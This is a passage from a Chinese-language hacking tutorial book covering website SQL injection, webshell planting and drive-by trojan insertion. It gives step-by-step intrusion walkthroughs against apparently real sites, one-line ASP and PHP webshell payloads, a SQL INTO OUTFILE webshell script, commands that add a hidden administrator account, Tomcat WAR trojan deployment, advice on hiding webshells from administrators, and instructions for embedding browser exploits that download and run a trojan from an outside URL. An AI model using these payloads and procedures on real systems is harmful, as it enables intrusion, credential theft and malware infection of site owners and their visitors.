到样式列表的界面，点击“预览”就可以进入样式预览界面，在这个模式下可以上传我们自行添加的 asa 后缀的文件，点击第三排第一个小图片的图标，便弹出了上传图片的对话框，选择好自己的小马（asa 后缀），点击“确定”即可开始上传，如图4.45。上传成功后在界面的编辑区域会看到一个打着红叉的图片样子，如图4.46，其实它就是刚才上传的小马，只是被当作图片后显示不出来罢了。点击下侧的“代码”进入代码查看模式，如图4.47，可以从 HTML 代码中得到上传的小马的 URL 地址，然后我们结合网站的 URL 地址就可以获得一个 WebShell 了，如图4.48。

## 第五章 跟我学网站注入攻击

当前最流行，也是黑客在入侵过程中使用最多的就是 SQL Injection，也就是 SQL 脚本注入攻击了。首先获得动态网站的后台管理员用户名和密码，然后登录后台管理系统再进行上传 WebShell 等操作，就可以得到这个网站的文件和数据库的控制权了。如果目标站点久攻不下的话，还可以考虑攻击服务器上的其它站点，然后再间接的入侵目标网站。这就是目前入侵网站的常用方法，只要找到一个网站的软肋、弱点，只需要一个小小的漏洞，就可以使得整个网站沦陷。

## 5.1 SQL注入基础

随着 B/S 模式应用开发的发展，使用这种模式编写应用程序的程序员也越来越多，但是由于程序员的水平及经验参差不齐，相当多一部分程序员在编写代码的时候，没有对用户输入数据的合法性进行判断，因此使得应用程序存在了安全隐患。用户可以提交一段数据库查询代码，根据程序返回的结果，获得某些他想得知的数据，这就是所谓的 SQL Injection，即 SQL 注入。

> **小知识：什么是 B/S 结构**

B/S（Browser/Server）结构也即浏览器和服务器结构，它是随着 Internet 技术的兴起，对 C/S 结构的一种变化或者改进的结构。在这种结构下，用户工作界面是通过 WWW 浏览器来实现，极少部分事务逻辑是在前端（Browser）实现，但是主要事务逻辑是在服务器端（Server）实现，形成了所谓三层 3-tier 结构。这样就大大简化了客户端电脑的载荷，减轻了系统维护与升级的成本和工作量，降低了用户的总体成本（TCO）。

SQL 注入攻击都是通过正常的 WWW 端口进行的，所以表面看起来跟正常的 Web 页面访问没什么区别，目前的绝大多数防火墙都不会对 SQL 注入发出警报，倘若网站管理员没有查看 IIS 日志的习惯，可能网站被入侵很长时间都不会发觉。SQL 注入攻击的方法相当灵活，在注入的过程中往往会碰到很多意外的情况，入侵者需要根据具体情况进行分析，构造出巧妙的 SQL 语句，从而成功获取敏感数据。

要想熟练的掌握 SQL 注入攻击的各种手法，就需要掌握很多知识，比如 ASP、PHP 脚本语言，ACCESS、MSSQL、MYSQL 数据库等等，而且还得脑筋灵活，要学会发散思维，就是在遇到困难的时候要积极的多想出解决的办法然后进行尝试。另外还得学会总结，这不一定是书面的，但是每次注入攻击后都需要好好想想自己在这次攻击中都学到了什么新东西，这样才会进步，才能真正的成为一位网络大虾。

我们要如何判断一个页面是否存在SQL注入漏洞呢？一般可以在URL地址后面加上单引号来判断。先给大家看一个正常URL地址（没有添加单引号）的页面，如图5.1，当在正常地址后面加上单引号后，就会因为正常的SQL查询语句被打乱而出现了错误提示，如图5.2。当然有时候也不会出现错误信息，但是出现的页面和正常页面也是不一样的，例如添加单引号后页面内容变成了空白等。

如果大家在检测的时候发现IE返回的是“HTTP 500内部服务器错误”提示的话，如图5.3，需要对IE修改设置才能把它出现的错误全部显示出来，在“工具”菜单下选择“Internet选项”，选择“高级”，把“显示友好HTTP错误信息”的勾取消掉，这样IE遇到错误的时候就会把全部的错误信息显示出来。

总显示出来了，如图5.4。现在我们还不能够确定这个地址就一定存在SQL注入漏洞，再在正常地址后面加上“and 1=1”可以看到返回了正常的页面，如图5.5，为什么呢？因为添加上一个“1=1”后，“and”前面的SQL语句和后面的“1=1”都是真（TRUE），在进行完AND运算后，当然也是真（TRUE）了，也就会正常执行了。再在正常地址后面加上“and 1=2”，可以看到返回了错误的页面，如图5.6，这又是为什么呢？因为添加上一个“1=2”后，“1=2”是假，导致了AND运算后也成了FALSE（假），所以发生了错误了。

### 5.2 ASP+ACCESS下的注入

在找到存在SQL注入漏洞的页面后，就需要精心构造可以获得数据库信息的SQL语句，并将SQL语句插入到URL地址中，然后再根据IE浏览器返回的数据得到敏感信息。手工注入的话虽然准确度非常高，但是过程相当繁琐，对于一般的站点来说，还是使用SQL注入工具进行入侵要比较实际，这对于许多菜鸟初学者也更容易掌握。

打开啊D注入工具，点击左侧的“扫描注入点”，在“检测网址”中输入刚才我们手工判断存在SQL注入漏洞的地址，然后点击后边的第一个小红按钮。在啊D注入工具检测完毕后，在工具最下方的“可用注入点”中就会提示这个地址是可以注入的，如图5.7。

双击这个可用的注入点就会自动进入“SQL注入检测”功能，点击“检测”就可以检测出当前网站所使用的是什么类型的数据库，检测完成后就会在工具最左下方看到相应的提示：“数据库类型为：ACCESS数据库，程序完成检测”，而且还检测出了连接类型为数字型，如图5.8。接着，我们点击“检测表段”，来检测数据库中数据表，工具就会试着猜解一些常用的数据表段。结果只检测出了一个名为“admin”的数据表，从字面就可以看出这个数据表是用来存放管理员信息的，如图5.9。得到数据表后就可以再猜解这个数据表中存在的字段值，选中“admin”表段，点击“检测字段”后就开始猜解了。结果猜解到了三个字段，从字面也可以看出来分别是用户名、密码、ID编号，如图5.10。全部勾选上这三个字段值，我们要将这三个字段值所有的数据猜解出来，点击“检测内容”，结果检测到只存在一条数据记录，当然就是代表着只存在一个管理员了，而且成功的将管理员的用户名、密码、ID编号都猜解了出来，如图5.11。

由于该站点的管理员密码没有被加密，是直接按照原始值保存的，所以就不用去破解MD5值了，直接登录网站的后台就可以。点击啊D注入工具左侧的“管理入口检测”，然后点击“检测管理入口”就可以猜测该网站的后台管理地址了，如图5.12，但遗憾的是啊D没有猜解出来。我们返回网站来看看它使用的是什么网站程序，从网站的页脚发现了蛛丝马迹：“版权所有：青创网络 版本：Build 1213(SP)”，很明显对方使用的是青创网站管理系统，如图5.13。

马上打开百度寻找青创的官方站点，寻找到对应的版本后下载回来，如图5.14。查看青创新闻系统的目录文件后，发现它的默认数据库是保存在根目录下的“article.mdb”，如图5.15。于是我试了一下，直接在对方的网址后添加上默认的数据库，结果可以正常的下载，如图5.16，这说明对方没有更改默认数据库的地址。因此，我们使用“版权所有：青创网络 版本：Build 1213(SP)”这个关键字进行搜索的话，应该可以挖到不少的类似站点。回到正文中，经过检测后发现名为“gl”的目录正是网站的后台管理地址，如图5.17，使用前面猜解出来的管理员帐号和密码就可以登录进去了，如图5.18，它的后台管理系统比较简陋，只有一个CSS编辑器和数据库备份可以利用一下。首先点击左边的“CSS设置”进入CSS的编辑界面，在CSS代码的最后边添加上一句话木马“<%execute(request("cmd"))%>”，然后点击“提交修改”，这样一个小马就保存到服务器上的一个CSS文件中了，如图5.19。点击左边的“备份数据”进入数据库备份界面，如图5.20，因为刚才保存的CSS文件(style.css)跟article.mdb都是在网站根目录下，所以只需要将“article.mdb”更改成“style.css”，将备份数据库名字更改成“asp.asp”，如图5.21。点击“确定备份”后就可以将“style.css”复制到“Databackup”目录下面保存为“asp.asp”了，而且在备份成功后还会返回备份后的绝对路径，如图5.22。直接在IE浏览器中访问小马，可以看到上面是一堆 CSS 代码，下面则是“类型不匹配：'execute'”字样的错误提示，这就表示这个小马已经被成功的执行了，如图 5.23。我们使用小马的客户端连接上去，就可以上传大马或者进行其它的文件操作了，一个网站的 WebShell 就这样成功的拿到了，如图 5.24。

## 5.3 ASP+DB_OWNER 下的注入


如果要小菜们一个个站点的来寻找 SQL 注入漏洞，恐怕小菜们早就没有耐心了，而且这样也非常麻烦，既需要手工判断，又需要使用注入工具进行猜解。其实使用啊 D 注入工具再结合搜索引擎就可以实现批量的寻找 SQL 注入点了，因为啊 D 具有检测一个网站内所有链接是否存在 SQL 注入漏洞的功能。我们可以结合搜索引擎将可能存在 SQL 注入漏洞的页面搜索出来，然后再交给注入工具进行批量判断是否存在 SQL 注入漏洞。


打开啊 D 注入工具，点击左侧的“扫描注入点”进入批量扫描页面，在“检测网址”中输入“http://www.baidu.com/”进入百度搜索页面，如图 5.25。点击搜索栏后边的“高级”进入高级搜索页面，如图 5.26。在搜索输入框中输入“inurl:.asp?id=”，它的意思就是在百度中搜索 URL 地址中存在“.asp?id=”的地址，这类的地址存在 SQL 注入漏洞的比较率非常高，我们可以搜索出许多存在 SQL 注入漏洞的链接，如图 5.27。从这些存在注入漏洞的地址中随便选择一个，双击后在“SQL 注入检测”页面进行检测，得出此网站使用的是 MSSQL 数据库，数据库的名字为“A4TECH_JPN”，当前的数据库用户为“a4tech_jpn”，其数据库连接权限为“DB_OWNER”，如图5.28。


> **小知识：什么是DB_OWNER**

DB_OWNER是一个数据库角色，而不是一个用户。DB是database的缩写，owner即拥有者的意思。它是指某一个数据库的拥有者，它拥有了对数据库的修改、删除、新增数据表、执行大部分存储过程的权限，但涉及一些系统敏感操作的权限则不具备。

一般情况下DB_OWNER权限是可以列目录来查看服务器中所有目录文件的，点击啊D注入工具左侧“相关工具”下的“目录查看”，在“检测位置”输入“C:\”，点击后边的“开始检测”，稍等一会儿服务器中C盘下的所有目录及其文件就都会显示出来了，如图5.29。通常网站管理员都会把网站文件存放在非C盘下，所以就需要一个个分区的进行检测了。


那么如何快速的分辨出网站文件所在的绝对路径呢？一、需要长期的人侵经验；二、需要对人侵的网站了如指掌。通过长时间（5分钟）的检测，发现该网站文件所在的绝对路径为“D:\Web\a4tech”，如图5.30。可以看到网站的目录和读取的目录完全一致，完全可以使用文件对比法来逐一检测网站的目录。

找到网站的绝对路径后就可以结合DB_OWNER的权限在网站的根目录下写入一个一句话木马。DB_OWNER权限一般是可以备份数据库的，我们可以先将一句话木马插入到数据库中，然后再将数据库备份到网站绝对路径中的ASP文件中，这样一个WebShell就产生了。

打开zj1244小菜编写的“备份数据库利用工具”，往数据库中插入一句话木马，


备份数据库到指定目录需要很多条 SQL 查询语句，使用这个工具就可以自动实现针对 DB_OWNER 权限下的差异备份和日志备份了。在“地址”处填写注入点的地址，默认情况下工具会以数字型的注入点来进行备份，如果注入点是字符型的，就一定要勾选上“字符型”。如何来确定注入点是数字型还是字符型的呢？可以在啊 D 的检测结果中看到提示信息的。在“备份类型”处可以选择差异备份和日志备份，这里我选择的是“差异备份”。


图 5.29


图 5.30

“码”处就填写一句话木马的代码，我填写了 ASP 后门服务端代码。在“路径”处填写想备份到网站的绝对路径的哪个文件中，我填写的是“D:\Web\a4tech\cc.asp”，如图5.31。填写完毕后直接点“发送”就行了，稍等一会儿工具就会将一步步的备份工作完成，并弹出一个发送完毕的对话框，如图5.32。

```
<%execute(request("cmd"))%>
```

## 小知识：什么是差异备份

> 复制自上一次普通备份或增量备份以来被创建或更改的文件的备份，它不将文件标记为已经备份（换句话说，没有清除存档属性）。如果我们要执行普通备份和差异备份的组合，则还原文件和文件夹将需要上次已执行过普通备份和差异备份。

上传的“cc.asp”的绝对路径对应了网站的“http://www.a4tech.com/cc.asp”相对路径，在 IE 中打开这个地址，如果出现了如图5.33所示的错误信息就表示一句话木马已经成功执行了。我们使用一句话木马的客户端连接上去，就可以上传大马或者进行其它文件操作了，如图5.31。


图 5.31


图 5.32　　图 5.33

34，一个网站的 WebShell 又成功的拿到了。

## 5.4 ASP+SA下的注入

有时我们还会遇到 SA 权限的注入点，SA（即 SYSTEM 和 ADMIN 的缩写）是 MSSQL 数据库的默认系统帐户，具有最高权限。它可以在 MSSQL 里执行任何的命令，包括一些可以执行系统命令的存储扩展过程，比如 xp_cmdshell。


图 5.34

NBSI 注入工具用来对付 SA 权限是最好不过了，它是一款老牌的 SQL 注入工具，在针对 MSSQL 数据库的注入漏洞利用上，比如执行系统命令、列系统目录、上传文本文件等方面都是非常突出的。

使用啊 D 注入工具扫描到的 SA 权限注入点，放到 NBSI 里去利用，可以最大发挥啊 D 和 NBSI 的优势功能。

打开 NBSI，点击“注入分析”进入扫描分析界面，在“注入地址”中输入 SQL 注入点地址，然后点击后边的“检测”按钮就会进行漏洞信息的检测了，如图 5.35。运气不错，NBSI 检测出这是一个 SA 权限的 SQL 注入点。


图 5.35

点击下面的“NB_TreeList”选项，切换到 NBSI 的列目录功能，在“输入


图 5.36

路径”中填上想要查看的目录地址，比如我想查看服务器 C 盘的文件，就输入“C:\”，然后点击最右边的“列目录”就可以查看当前目录中的文件了，如图 5.36。NBSI 可以自定义临时表的名字以增加隐蔽性，还可以只查看文件或者文件夹。

点击下面的“NB_Commander”选项切换到 NBSI 的命令执行功能，这个功能可以在服务器上执行一些 CMD 命令，由于这个注入点是 SA 权限，执行权限也就是最高的，相当于服务器的系统权限，所以执行什么系统命令都可以。


图 5.37

在“命令文本”中输入想要执行的 CMD 命令，比如我想使用“systeminfo”命令查看服务器的系统环境，那么就输入“systeminfo”，然后点击“执行”，如图 5.37。在右侧还有 NBSI 的文本文件上传功能，这个功能可以通过 WEB 将一些小文本文件（大文本文件会出错）提交到服务器上。先通过“浏览”在本地计算机中选择一个文本文件，再填写需要保存在服务器中的路径，选择保存类型（覆盖或者追加），最后点击“上传”即可，如图 5.38。

由于这个功能不是很完善，经常会出现莫名其妙的乱码错误，所以不怎么常用。


图 5.38

利用 NBSI 执行“net start”命令可以查看到服务开启情况，发现系统开放了“Terminal Services”（3389 终端服务），如图 5.39，但是使用远程桌面却连接不上，这是为什么呢？看来是服务器管理员将终端服务的默认端口 3389 更改了，那么要如何查找呢？再来执行“netstat -an”查看当前服务器开放端口的连接端口信息，如图5.40，我发现3800这个端口很可疑，当使用远程桌面连接的时候终于出现了连接界面，但是现在没有系统登录帐号和密码，那又要怎么办呢？既然我们已经有了最高权限，那就自己来添加帐号了，分别执行“`net user hackerxfiles 123456 /add`”（添加一个名为hackerxfiles，密码为123456的帐号）和“`net localgroup`


administrators hackerxfiles /add”（将刚才建立的hackerxfiles帐号添加到管理员组中），命令执行完毕后可以执行“`net user`”命令检查是否添加管理员帐号成功。 在远程桌面中输入“`www.helper24.com:3800`”就可以连接到服务器的终端服务，然后输入刚才建立的帐号和密码就可以成功登录到服务器，一台3389肉鸡也诞生了，如图5.41。

## 5.5 PHP+MYSQL下的注入

其实不光ASP可以进行注入，PHP的动态脚本也可以，甚至于连JSP也可以。由于ASP和PHP在网络中最常见，所接下来我再给大家介绍一下PHP的注入，其它语言的注入都大同小异。

要如何检测一个地址是否存在PHP注入漏洞呢？相信大家在学习了前面所介绍的ASP检测方法后都明白是怎么回事了，但是ASP和PHP又有些不同。我们随便选择一个PHP而且带有参数的页面进行手工检测，如图5.42，和检测ASP页面的时候一样，在后面添加上一个单引号，可以看到程序出错了，而且暴出了程序文件的绝对路径“`C:\AppServ\www\ymdown\show.php`”，


如图5.43，这个路径就是当前PHP文件的绝对路径，这个路径在我们后面的人侵中可能会用到的。再在正常的地址后面添加上“and 1=1”，可以看到返回了正常的页面，如图5.44，再在正常的地址后面添加上“and 1=2”，可以看到返回了错误的页面，如图5.45。

检测结束，现在就可以认定这个地址存在PHP注入漏洞了，在正常URL地址后面添加上“/*casper”，发现还是返回了正常的页面，基本上可以确定这个网站使用的是MYSQL数据库，如图5.46。这是因为“/*”是MySql里面的注释语句，因此“/*”后面的“casper”只是当作注释而已，并不影响其后面代码的执行。

已经找到了一个PHP注入点，那么要如何进行注入操作呢？我向大家推荐使用HDSI，它是教主编写的一款集合ASP与PHP的注入工具。打开HDSI，直接点击左侧的“PHP注入”就会进入PHP注入的界面了，在“注射地址”中输入刚才检测有


漏洞的注入点，还需要输入关键字符，这个就相当于我们在ASP注入里的特征字符，我选择了页面中的“测试”二字，点击“开始”后HDSI就会检测字段长度了，如图5.47。在检测完毕后，我们可以通过HDSI自带的浏览器看到页面中的字段都被1，2，3等数字代替了，这里就是ASP和PHP注入的不同之处。接下来开始猜解数据库，先猜解表名，然后再猜解列。


图5.45


图5.46

名，如图5.48，这一步操作和啊D注入工具猜解ASP的时候差不多。

非常顺利的就猜解出了保存管理员信息的数据表和数据字段，那么接下来要怎样获得管理员的帐号和密码信息呢？这回就不用像ASP里一个个字符的进行猜解了，在PHP注入中采用的是暴记录的方式。在右侧有暴记录的选项，“字段—位置”的意思就是询问你字段一暴出来的东西显示在页面哪个字段的地方，根据我的观察，页面中4和6这两个位置不错。因此分别将它们设置为字段一二的位置，然后点击“已猜解列名”中的列名和“已猜解表名”中的表名，点击“确定”按钮后就可以将管理员的帐号信息暴出来了，如图5.49，把目光再次投到HDSI所带的浏览器中，可以清楚的看到管理员的帐号密码（admin/7788521）。

有了管理员的帐号和密码，还得找到网站后台才能登录，这点就和ASP一样了，怎么查找呢？在HDSI里同样也可以查找后台，选择“扫描后台”选项，然后点击“扫描”按钮就可以进行扫描了，如


图5.47


图5.48


图5.49

图5.50，在得到后台地址后就可以打开IE登录网站的后台管理系统了，如图5.51。

在HDSI中不但可以检测数据库中的数据，还可以利用MYSQL中的load_file函数进行读文件，能够读哪些文件呢？这就需要看你的权限有多大了，如果是ROOT权限的话，那就想读什么就读什么。比如可以读取数据库的链接文件来寻找ROOT帐号密码，SERV-U的配置文件等等。

返回到HDSI的PHP注入界面，在右边有个“暴文件”的选项，“loadfile的位置”就是将暴来的文件内容显示在页面中哪个字段的位置，我选择的是12号字段。“目标绝对路径”就是问你想读取哪个文件，这里必须是文件的绝对路径，还记得刚才获取到的绝对路径吗？在这里终于派上了用场，我们来测试一下读取C盘根目录的boot.ini文件，在“目标绝对路径”中输入“c:\boot.ini”，如图5.52，然后点击“确定”按钮，刷的一下文件内容就暴出来了，如图5.53，我们再结合前面手工检测得到的网站代码的绝对地址来读取连接MYSQL数据库的文件内容，就可以得到数据库连接的帐号和密码信息了。


图5.50


图5.51


图5.52

### 5.6 明小子 + 旁注入侵演示


所谓旁注就是从旁边注入，也就是利用主机上的任意一个虚拟站点进行渗透，得到一个 WebShell 后，再利用主机上的开放程序以及一些不安全的配置进行跨站式的入侵。有时候我们在入侵一个目标站点时会发现特别困难，但是又不想放弃，那么该怎么办呢？这时候就可以采取迂回战的打法，也就是利用旁注。来看一下如何寻找服务器上的其它站点，一般的查询方法有两种，分别是通过工具和网站来进行查询，其实原理都是一样的。


来介绍另一款著名的综合注入工具 Domain3.5，它是明小子开发的一款针对 ASP 的注入工具，在旁注方面非常出色，如图 5.54。打开工具后，在域名处输入要查询的域名地址，然后点击后边的“>>”，工具就会自动将域名转换为 IP 地址，因为在查询 Whois 的时候，实质上是使用 IP 地址来查询的。我们点击“查询”按钮就可以在左侧列表中显示出当前服务器上所绑定的域名了，我们以黑客 X 档案的服务器为例，可以看到服务器上绑定了不少的域名，如图 5.55，可以通过右侧的“网站批量检测”对这些站点进行全面的“体检”。

> **小知识：什么是 Whois**
>
> Whois 就是一个用来查询域名是否已经被注册，以及注册域名的详细信息的数据库（比如域名所有人、域名注册商、域名注册日期和过期日期等），通过 Whois 来实现对域名信息的查询，并且一些 Whois 服务器还可以查询出该服务器上绑定了多少域名，分别是哪些域名等信息。

不过有的时候，使用Domain3.5也会查询不出来，比如今天我给大家选择的这个目标（http://www.xfxy.cn），工具就提示“该IP地址没有绑定任何国际域名”，如图5.56，难道真的没有绑定吗？我们再来测试一下通过Whois网站进行查询，打开“http://www.myipneighbors.com/”，如图5.57，输入网站的域名或者对应的IP地址都可以，点击“submit”后进行查询，可以看到绑定在服务器上的好多域名了，如图5.58。


从中选择几个地址放到Domain3.5中进行注入检测，一会儿就检测出好几个存在注入漏洞的网站（http://www.mdone.cn），如图5.59，随便挑选一个，双击注入点链接地址后就会进入SQL注入界面，点击“开始检测”按钮，工具就会自动进行注入分析，结果检测出一个DB_OWNER的MSSQL数据库权限，如图5.60，我们利用前面所介绍的数据库备份方法就可以得到这个网站的WEBSHELL了。


## 第五章 跟我学网站注入攻击

在备份的时候我们能不能直接备份到目标网站的目录里呢？其实旁注并非一定要拿下主机然后再去入侵目标网站，因为有些网站管理员在设置虚拟主机目录的时候设置的不严格，在一个虚拟主机目录下是可以跳转到其它虚拟主机目录下的。使用啊D注入工具的列目录功能一会儿就把目标网站的绝对路径找到了，如图5.61，发现可以直接跳转到目标网站的目录下，这就说明当前数据库权限是可以往目标网站的目录下写文件的。因此，我们直接使用数据库备份工具往目标网站写入 WebShell，如图5.62，最后再使用一句话木马的客户端进行连接就可以得到目标网站的 WebShell 了，如图5.63。

## 5.7 整站SQL注入工具的利用

在一些网站程序出现SQL注入漏洞的时候，一些网络高手就开始编写相应的漏洞利用工具……用工具了，这些工具使得入侵这些存在漏洞的网站变得相当简单。我们就以前些日子刚公布出来的帝国CMS系统的注入漏洞为例来给大家进行演示，希望大家能够掌握此类工具的使用方法。

要想入侵帝国CMS系统搭建的网站，当然需要先通过搜索引擎找到它们才行。因为“Powered by EmpireCMS”字样会作为版权信息出现在网站的标题栏上，所以我们在搜索引擎中输入“Powered by EmpireCMS”或者“intitle:Powered by EmpireCMS”就可以搜索到很多使用它搭建的网站，如图5.64。随便选择一个站点，打开后拖到最下面就会看到帝国的版权信息了，如图5.65，这也可以确定该网站是由帝国CMS搭建的。

漏洞利用工具是运行在CMD下的，我们先打开CMD命令提示符，直接运行hfexp就可以查看到使用说明了。使用的方法非常简单，只需要一个参数就行。执行“hfexp http://www.kxde.cn”就可以对“http://www.kxde.cn”网站进行注入攻击了，在攻击成功后会返回管理员的ID编号、用户名和MD5加密过的密码等信息，如图5.66。打开IE登录“http://www.cmd5.com”进行MD5密码的猜解，……“60876087”，如图5.67。得到网站管理员的帐号和密码后就应该登录后台管理界面了（http://www.kxde.cn/e/admin），如图5.68，同上边介绍的方法一样，如果我们使用工具没有查找到网站管理后台的话，仍然可以去下载一套帝国CMS的程序来确定后台管理到底是保存在哪里的。

得到管理员帐号和密码后成功进入了后台管理界面，如图5.69，那就来拿一个WebShell吧。点击上方的“模板管理”进入模板管理的界面，然后在左侧选择“添加自定义页面”就可以添加一个新的模板文件了，如图5.70。在“页面名称”中随意写上一个名字，点击“选择目录”来确认“模板”所保存的目录，如图5.71，返回后再补上文件名，由于我们需要上传一个PHP的小马，所以就写成“xxx.php”，然后在页面内容中填写上小马的内容，点击“提交”按钮后就可以保存一个后缀为PHP，内容为php小马的“模板”文件了，如图5.72。

根据“../../bak/xxx.php”这个相对目录猜测xxx.php保存的URL地址为（http://www.kxde.cn/bak/xxx.php），直接访问后得到的是空白页面，如图5.73，这证明小马已经成功运行了。打开小马的客户端直接连接上去就可以上传其它 WebShell 或者进行其它操作了，如图 5.74。

## 5.8 利用 PhpMyAdmin 来入侵网站

PhpMyAdmin 是一个以 PHP 为基础，以 Web-Base 方式架构在网站主机上的 MySQL 的数据库管理工具，它可以管理整个 MySQL 服务器（需要超级用户权限），也可以管理单个数据库。在实现后一种的时候，需要合理设置 MySQL 用户权限，只能对允许的数据库进行读/写操作。

- 1. 能够登录 PhpMyAdmin 的一个 MYSQL 帐号。在 PHP 注入的过程中，可以使用 load_files 函数将用于连接数据库的内容读出来，就可以获得连接 MYSQL 的帐号和密码了；
2. 网站程序在服务器上的绝对路径。

在 PHP 的注入过程中，如果能够暴出其程序文件的绝对路径是最好了，还可以试着寻找 PHP 探针之类的页面，比如“PHPINFO()”，它可以返回当前运行文件的绝对路径，如图 5.75。只有使用帐号和密码才能登录 PhpMyAdmin，比如前面我们在进行PHP注入的过程中已经获得了一个名为download的MYSQL账号，如图5.76。在成功登录进入PhpMyAdmin后台以后，需要在左侧选择一个可以创建数据表的数据库，一般情况下可以选择和MYSQL账号相同的数据库，如图5.77。

进入数据库后会列出当前数据库中所有的数据表，如图5.78，点击上边的“SQL”就可以执行自定义的SQL语句了，如图5.79。

在输入框中输入以下SQL语句：

```
sql
Create TABLE xxx (cmd text NOT NULL);
Insert INTO xxx (cmd) VALUES('<?php eval($_POST[cmd]);?>');
select cmd from xxx into outfile 'C:/AppServ/www/ymdown/shell.php';
Drop TABLE IF EXISTS xxx;
```

第一行代码创建了一个名为xxx的数据表，其中有一个名为cmd的文本字段。第二行代码将一句话木马“<?php eval($_POST[cmd]);?>”插入到刚才新建的cmd文本字段中。第三句代码将名为xxx的数据库导出为文件并保存在“C:/AppServ/www/ymdown/shell.php”。第四句代码将名为xxx的数据表删除，以防止被管理员发现。

在SQL语句执行完毕后，会返回“您运行的SQL语句已经成功执行了”的提示，并且还会返回每条SQL语句的影响列数，如图5.80。我们再结合网站的相对路径和导出的绝对路径就可以得出WEBSHELL的URL地址（http://192.168.1.100/ymdown/shell.php），直接使用IE打开后发现仍然是空白页面，如图5.81，这表示PHP小马已经成功运行了，最后使用PHP小马的客户端连接上去就可以实现控制功能了，如图5.82。

## 5.9 利用Tomcat入侵网站

Tomcat是一个免费的开放源代码的Web应用服务器，由于有了Sun的参与和支持，最新的Servlet和JSP规范总是能在Tomcat中得到体现，Tomcat5支持最新的Servlet2.4和JSP2.0规范。因为Tomcat技术先进，性能稳定，而且免费，因而深受Java爱好者的喜爱并得到了部分软件开发商的认可，成为了目前比较流行的一个Web应用服务器。Tomcat默认是通过8080端口对外提供Web服务的，安装的时候默认的管理员账号为admin，密码为空，没有修改管理员账号密码信息的话就会导致登录到Tomcat的管理后台。我们要如何寻找使用Tomcat的服务器呢？方法一，因为Tomcat默认首页的标题为“Apache Tomcat”，并且是开放在8080端口上的，那么URL地址中就肯定要有8080字符，所以我们在百度中搜索“intitle:'Apache Tomcat' inurl:8080”就可以搜索出不少，如图5.83。方法二，就是在扫描服务器的时候发现其开放了8080端口的话，就可以看看对方是否开放了Tomcat服务。打开Tomcat的默认页面，在左侧可以看到“Administration”（管理菜单），其中“Tomcat Manager”（Tomcat管理）就是Tomcat的管理后台入口，如图5.84。Tomcat的默认后台是“http://服务器IP:8080/manager/html”，点击“Tomcat Manager”后就会弹出一个密码验证的窗口，输入默认的管理员帐号和密码就可以登录后台了，如图5.85。在Tomcat的后台可以看到站点的所有目录信息，并且还提供了“Start”、“Stop”、“Reload”、“Undeploy”等功能对目录实施“开启”、“停止”、“重启”、“卸载”等操作，如图5.86。

Tomcat后台中还提供了一个上传功能，但是只能上传War文件。War文件是用于发布的、打包后的web应用程序，上传到Web站点后可以被自动执行。我们需要先把一个jsp木马打包生成一个War文件，上传后就可以运行该网马了。我已经给大家打包了一个JSP木马，大家就不用那么麻烦了。直接点击“浏览”按钮，选择打包好的War文件，点击“Deploy”按钮就可以上传，如图5.87。在上传 War 打包的木马后，就会在 Tomcat 站点下自动生成与上传文件同名的目录，如图5.88。点击“Hacker”目录，如图5.89，就可以看见 War 里面的 JSP 网马了。

由于 Tomcat 服务一般运行权限为 SYSTEM，所以在它下面运行的 JSP 木马一般也是 SYSTEM 权限。点击“CMD 命令”切换到执行 CMD 命令页面，输入“whoami”命令，就可以查看当前 Tomcat 服务的运行权限，可以看到当前权限为 SYSTEM，如图5.90。再执行“net start”命令查看当前服务器是否开放了终端服务，可以看到终端服务已经启动了，如图5.91。然后再执行“netstat -an”命令查看终端服务的开放端口是否为3389，如图5.92。如果这两项都存在的话，那么就可以使用 CMD 命令建立一个管理员账号，直接连接到服务器的3389上进行控制了，如图5.93。

如果服务器没有开启终端服务或者由于防火墙等原因没有连接的话，可以先使用 JSP 木马的文件管理功能将你的 PcShare 木马上传到服务器上，然后再使用 CMD 命令功能执行你的 PcShare 木马就可以等待服务器上线了。

## 第六章 得到的 WebShell 都有什么用

通过前面五个章节的学习，相信大家现在搞到一些 WebShell 已经不成问题了，那么各位有没有考虑过获得这些 WebShell 都有什么用呢？其实我们在获得 WebShell 之后还有很多事情要做的，第一件事就是做好隐藏 WebShell 的工作，以防止被管理员发现。可以复制多个 WebShell 到不同的目录下面，修改 WebShell 的文件名。为了更好的隐藏 WebShell，还可以将 WebShell 的文件名改成跟原网站文件相似的名字。除了做好隐藏 WebShell 的工作外，我们还可以利用 WebShell 进行挂马，抓更多的肉鸡，也可以搜集服务器的有关信息，寻找服务器存在的安全隐患或者漏洞，然后将 WebShell 的权限提升到服务器系统权限，这样就可以执行系统命令，从而控制整个服务器了。如果服务器上有好多个网站的话，那就相当于一次性入侵了好多网站，可以在多个网站上挂马。

### 6.1 跟我学网页挂马

上边不止一次的提到了挂马，那么什么是网页挂马呢？其实这就是黑客通过一些技术手段攻下一个网站后，在这个网站中嵌入的一段用于自动下载木马程序的恶意代码或脚本，从而利用该代码或脚本实施木马植入的行为，这个通常就被称为“网页挂马”，等用户浏览了被挂马的网页后就会感染木马，成为黑客所控制的肉鸡，如图 6.1。

在挂马之前，首先要生成一个普通的木马（比如灰鸽子、PcShare、金狐QQ大盗等），至于如何配置生成一个普通的木马我们在第二章中已经详细的介绍过了。将这些木马通过FTP或者其它方式上传到一个可以WEB访问的服务器空间中，如图6.2，从而获得一个可以访问的URL地址，比如http://54abu.cn/mm.exe，如图6.3。

既然我们要挂马，前提条件自然是需要先使用网马生成器来生成一个网页木马，这个网页木马能够在IE访问后自动的去下载存放在特定网站上的木马，并且还能够自动执行该木马程序。打开暗黑网马生成器，这款网马生成器集合了很多的网马代码于一身。在URL中输入木马的下载地址，比如http://54abu.cn/mm.exe，如图6.4，然后点击“生成”按钮就可以生成你选中的网马代码了，并且会将生成的网马保存在和网马生成器的同目录下面，返回一个“OK”的提示框就表示生成成功了，如图6.5。

将这些生成的网马也通过FTP上传到可以WEB访问的服务器空间中，并且获得可以访问它们的URL地址，例如其中的MS06014网马的URL地址为“http://54abu.cn/mm/ms06014.htm”，如图6.6，当访问这个网马URL地址的时候，没有打上该漏洞补丁的IE浏览器就会触发漏洞，自动去下载刚才已经上传的“http://54abu.cn/mm.exe”木马文件，并且会自动执行。

但是我们总不至于直接将网马的地址发给别人吧，没有哪个小菜会傻到直接打开访问的。这时候我们就可以使用挂马，将我们的网马嵌入到其它正常的页面中，那要嵌入到哪些页面中呢？这个就要看你入侵了哪个网站，获得……哪个网站的 WebShell 了。因为使用 WebShell 可以修改网站的代码来插入我们的网马地址，让别人访问的时候也就顺带着访问了我们的网马。

